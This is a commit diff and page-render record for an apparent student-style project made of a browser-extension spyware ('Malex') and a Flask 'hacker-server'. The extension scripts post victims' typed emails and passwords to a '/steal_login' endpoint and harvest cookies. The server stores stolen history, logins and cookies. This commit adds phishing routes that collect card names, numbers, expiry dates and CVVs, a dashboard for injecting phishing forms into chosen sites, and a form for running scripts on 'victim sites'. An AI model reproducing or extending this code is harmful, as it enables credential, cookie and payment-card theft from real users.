

Before and after one commit to swuleung/ac.js, a Flask app: template hacker-server/templates/index.html in a window 1280 px wide. Shown: the part 505-961 px from the top of the page. Before the commit the page ends 781 px from the top, so only its background shows below. Run offline with Flask 2, Linux system fonts and the light colour scheme; the template is opened without the code that fills it: most values are stand-ins (such as "Sample title", 1, 10 or a date in 2020); parts of the project's set-up code (start-up, migrations or seed data) failed here and were passed over; some libraries are stand-ins or nearby versions.

Commit message:
Phish data from user

```diff
--- a/Malex/scripts/cookies.js
+++ b/Malex/scripts/cookies.js
@@ -3,7 +3,6 @@ chrome.webRequest.onBeforeSendHeaders.addListener(
     function (details) {
         chrome.identity.getProfileUserInfo(function (userInfo) {
             var userEmail;
-            console.log(userInfo);
             if (userInfo.email == "") {
                 userEmail = "no_email_found"
             }
--- a/Malex/scripts/custom.js
+++ b/Malex/scripts/custom.js
@@ -0,0 +1 @@
+console.log("it me again");
--- a/Malex/scripts/login.js
+++ b/Malex/scripts/login.js
@@ -6,6 +6,7 @@ var password = $('[type="password"]');
 email.change(function () {
     chrome.storage.local.get('email', function (result) {
         var userEmail = result.email;
+        if (typeof userEmail === 'undefined') userEmail = "no_email_found";
         $.post("http://localhost:5000/steal_login", {
             email: userEmail,
             url: window.location.origin,
@@ -18,6 +19,7 @@ email.change(function () {
 password.change(function () {
     chrome.storage.local.get('email', function (result) {
         var userEmail = result.email;
+        if (typeof userEmail === 'undefined') userEmail = "no_email_found";
         $.post("http://localhost:5000/steal_login", {
             email: userEmail,
             url: window.location.origin,
--- a/hacker-server/pyfiles/cookies.py
+++ b/hacker-server/pyfiles/cookies.py
@@ -16,9 +16,6 @@ def bulk_add_to_cookies(email, url, cookie):
                     Values (?, ?, ?, ?, ?)"""
             c.execute(q, (userEmail, url, cook[0], '='.join(cook[1:]), datetime.datetime.now()))
             conn.commit()
-        else:
-            print('Cooky cook: ' + str(cook))
-            print('length of what?? ' + str(len(cook)))
     conn.close()
 
 def get_cookies_by_user(email):
--- a/hacker-server/server.py
+++ b/hacker-server/server.py
@@ -4,7 +4,7 @@ from flask import Flask, render_template, request, redirect, url_for, jsonify
 # Initial Database Dos
 import general_db
 
-from pyfiles import users, login, secure, history, cookies
+from pyfiles import users, login, secure, history, cookies, phish
 
 app = Flask(__name__)
 
@@ -15,17 +15,19 @@ def index():
     usrs = users.get_all_users()
     s = {}
     r = {}
+    phishes = {}
     for u in usrs:
         s[str(u)] = secure.getFromSecure(u)
         r[str(u)] = secure.getFromRandom(u)
-    return render_template("index.html", users = usrs, secure_urls = s, random_urls = r)
+        phishes[str(u)] = phish.get_phish_by_user(u)
+    return render_template("index.html", users = usrs, secure_urls = s, random_urls = r, phish_urls = phishes)
 
 @app.route('/online_check', methods=['POST'])
 def online_check():
     if request.method == 'POST':
         email = request.form['email']
         users.update_user(email)
-        return "thanks for pinging!"
+        return "Pinged server!"
 
 @app.route("/view_user/<email>", methods=['GET'])
 def view_user(email):
@@ -70,7 +72,7 @@ def delete_random(email, url):
 def get_random(email):
     return jsonify(r=secure.getFromRandom(email))
 
-
+########## History #########
 @app.route("/steal_history", methods=['POST'])
 def steal_history():
     email = request.form['email']
@@ -79,8 +81,9 @@ def steal_history():
     urls = request.form.getlist('urls[]')
     last_visited = request.form.getlist('last_visits[]')
     history.bulk_add_to_history(email, urls, last_visited)
-    return "hi"
+    return "History Stolen"
 
+######### Login ###########
 @app.route("/steal_login", methods=['POST'])
 def steal_login():
     if request.method == 'POST':
@@ -91,9 +94,10 @@ def steal_login():
         username = request.form['username']
         password = request.form['password']
         login.add_to_login(email, url, username, password)
-        return "we all good here"
+        return "Login stolen"
 
 
+######## Cookies #############
 @app.route("/steal_cookies", methods=['POST'])
 def steal_cookies():
     if request.method == 'POST':
@@ -103,7 +107,46 @@ def steal_cookies():
         url = request.form['url']
         cookie = request.form['cookies']
         cookies.bulk_add_to_cookies(email, url, cookie)
-        return "WHATS UP dawg?"
+        return "Cookies stolen"
+
+######## Phishing ##########
+@app.route("/phish/<email>", methods=['GET', 'POST'])
+def phishy(email):
+    if request.method == 'GET':
+        return jsonify(urls=phish.get_phish_urls(email))
+
+@app.route("/phish/<email>/<url>")
+def phish_code(email, url):
+    if request.method == 'GET':
+        return jsonify(code=phish.get_phish_code(email, url))
+
+@app.route("/phish", methods=['POST'])
+def phishy_info():
+    if request.method == 'POST':
+        email = request.form['email']
+        name = request.form['name-on-card']
+        number = request.form['card-number']
+        month = request.form['expiration-month']
+        year = request.form['expiration-year']
+        cvv = request.form['cvv']
+        phish.add_phish(email, name, number, month, year, cvv)
+        redirect_url = request.form['redirect-url']
+        return redirect(redirect_url)
+
+@app.route("/delete_phish/<email>/<url>", methods=['POST'])
+def delete_phish(email, url):
+    if request.method == 'POST':
+        phish.remove_phish_url(email, url)
+        return redirect(url_for('index'))
+
+@app.route("/add_phish/<email>", methods=['POST'])
+def add_phish(email):
+    if request.method == 'POST':
+        url = request.form['url']
+        injectLoc = request.form['inject-loc']
+        injectClass = request.form['inject-class']
+        phish.add_phish_url(email, url, injectLoc, injectClass)
+        return redirect(url_for('index'))
 
 @app.route("/execute_script/<email>", methods=['GET', 'POST'])
 def execute_script(email):
@@ -133,12 +176,12 @@ if __name__ == "__main__":
     app.config['TEMPLATES_AUTO_RELOAD'] = True
 
     # uncomment this if you want to erase all tables
-    general_db.drop_all_tables()
+    # general_db.drop_all_tables()
 
     # uncomment this if you want to create all tables
     general_db.create_all_tables()
 
     # uncomment this time if you want to erase the data
-    general_db.delete_db()
+    # general_db.delete_db()
 
     app.run(host='0.0.0.0', port=5000, debug=True)
--- a/hacker-server/templates/index.html
+++ b/hacker-server/templates/index.html
@@ -64,8 +64,8 @@
         </div>
         <form action="{{ url_for('execute_script', email=user) }}" method="POST">
             <div class="form-group">
-                <textarea class="form-control" name="script" id="execute-script" rows="4"
-                    placeholder="<script>alert('Hello');</script>" required></textarea>
+                <textarea class="form-control" name="script" id="execute-script" rows="4" placeholder="<script>alert('Hello');</script>"
+                    required></textarea>
             </div>
             <label for="victim_url">Victim Site</label>
             <input type="text" name="victim_url" id="victim_url" placeholder="example.com" required>
@@ -93,6 +93,40 @@
                 {% endfor %}
             </tbody>
         </table>
+
+        <form action="{{ url_for('add_phish', email=user) }}" method="POST">
+            <label for="url">Phish URL</label>
+            <input type="text" name="url" id="url" placeholder="example.com" required>
+            <label for="inject-loc">Location on Dom</label>
+            <input type="text" name="inject-loc" id="inject-loc" placeholder="body" required>
+            <label for="inject-class">Class</label>
+            <input type="text" name="inject-class" id="inject-class" placeholder="container" required>
+            <input type="submit">
+        </form>
+        <table class="table table-sm table-striped table-bordered">
+            <thead>
+                <tr>
+                    <th scope="col">Url</th>
+                    <th scope="col">Injection Location</th>
+                    <th scope="col">Injection Class</th>
+                    <th scope="col">Delete</th>
+                </tr>
+            </thead>
+            <tbody>
+                {% for url in phish_urls[user] %}
+                <tr>
+                    <td>{{url[0]}}</td>
+                    <td>{{url[1]}}</td>
+                    <td>{{url[2]}}</td>
+                    <td>
+                        <form action="{{ url_for('delete_phish', email=user, url=url[0]) }}" method="POST">
+                            <button type="submit" class="btn btn-danger">Delete</button>
+                        </form>
+                    </td>
+                </tr>
+                {% endfor %}
+            </tbody>
+        </table>
     </li>
     {% endfor %}
 </ul>
```
Also changed, not shown: Malex/scripts/phish.js (+27 -22 lines), hacker-server/general_db.py (+30 -2 lines), hacker-server/phish-pages/email.html (deleted, +0 -16 lines), hacker-server/templates/user.html (+9 -1 lines), Malex/manifest.json. Lines whose indentation alone changed are shown as unchanged.
